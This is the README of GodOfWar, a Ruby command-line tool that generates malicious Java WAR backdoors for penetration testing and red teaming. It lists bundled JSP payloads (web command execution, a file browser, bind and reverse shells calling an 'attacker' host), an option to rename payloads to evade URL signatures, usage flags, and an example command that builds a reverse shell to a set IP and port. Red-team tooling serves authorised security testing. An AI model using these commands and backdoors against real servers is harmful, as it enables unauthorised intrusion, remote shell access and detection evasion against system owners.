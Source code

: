 # GodOfWar - Malicious Java WAR builder
A command-line tool to generate war payloads for penetration testing / red teaming purposes, written in ruby.

```
                              .
                             hhh              
                            hhhhhhh           
                           hhhhhhhh        
                          hhhhhhhh+        
                         hhhhhhhh'           
                        hhhhhhhh.            
                       hhhhhhhhh             
        ..--          hhhhhhhhh             
      -sh/..  +.     hhhhhhhhh:              
      /+/:-/+ss-`   hhhhhhhhhh:               
      /MMM`ss:``.`  hhhhhhhhhh:              
     .MMMMM:        hhhhhhhhhhhhhhhhh:       
     MMMMMMM:        hhhhhhhhhhhhhhhh:      
     MMMMMMMMMMMMM:  hhhhhhhhhhhhhhhh`       
    :NNm:odh/oMMMNs. hhhhhhhhhhhhhhhh`       
   ./:`smdo+oos++-    `++sNMMMMMNmh+         
      .-y-`     ` :.  /   -dmddhhhhh-        
       o/-     `//o/ /M/   `+hhhhhhhh`       
      /o     :yosmy   +y  .`.hhhhhhhho       
      +`     /../.:      `.y::hhhhhs:`       
       `      `+yys`   .sy` /oohhy:          
                `/:s/-``     `.hh`           
               ..`     `       y+            
            .hNNmmNdymmmmds`   :-            
            hs.   ``..    :y-  `             
               -hhmNmddm+   .                
               `NMMMMMMm                     
                ` `oMMy                      
            `.     /Md-      :o  
           MMMMMMMMMMMMMMMMMMM:             
            MMMMMMMMMMMMMMMMMM:              
             MMMMMMMMMMMMMMMMM               
              MMMMMMMMMMMMMMM.               
              `MMMMMMMMMMMMM.                 
                :sNMMMNMdo:                  
                  ``+m:/-                    
                     `                                  
GodOfWar - Malicious Java WAR builder.
```

## Features

- Preexisting payloads. (try `-l/--list`)
    - cmd_get
    - filebrowser
    - bind_shell
    - reverse_shell
    - reverse_shell_ui 
- Configurable backdoor. (try `--host/-port`)
- Control over payload name. 
  - To avoid malicious name after deployment to bypass URL name signatures.

## Installation

```
$ gem install godofwar
```

## Usage
```
$ godofwar -h 

Help menu:
   -p, --payload PAYLOAD            Generates war from one of the available payloads.
                                        (check -l/--list)
   -H, --host IP_ADDR               Local or Remote IP address for the chosen payload
                                        (used with -p/--payload)
   -P, --port PORT                  Local or Remote Port for the chosen payload
                                        (used with -p/--payload)
   -o, --output [FILE]              Output file and the deployment name.
                                        (default is the payload original name. check '-l/--list')
   -l, --list                       list all available payloads.
   -h, --help                       Show this help message.
```

### Example 

**List all payloads**
```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a HTML form to set LHOST and LPORT from browser.
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell_ui
├── reverse_shell
│   └── Information:
│       ├── Description: TCP reverse shell. LHOST and LPORT are hardcoded
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell
```

**Generate payload with LHOST and LPORT**
```
godofwar -p reverse_shell -H 192.168.100.10  -P 9911 -o puppy
```
After deployment, you can visit your shell on (http://host:8080/puppy/puppy.jsp) 

## Contributing

1. Fork it ( https://github.com/KINGSABRI/godofwar/fork ).
2. Create your feature branch (git checkout -b my-new-feature).
3. Commit your changes (git commit -am 'Add some feature').
4. Push to the branch (git push origin my-new-feature).
5. Create a new Pull Request.

### Add More Backdoor
To contribute by adding more backdoors:
1. create a new folder under `payloads` directory.
2. put your `jsp` file under the newly created directory (make it the same directory name).
3. update `payloads_info.json` file with
    1. description. 
    2. supported operating system (try to make it universal though).
    3. configurations: default host and port.
    4. references: the payload origin or its creator credits.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

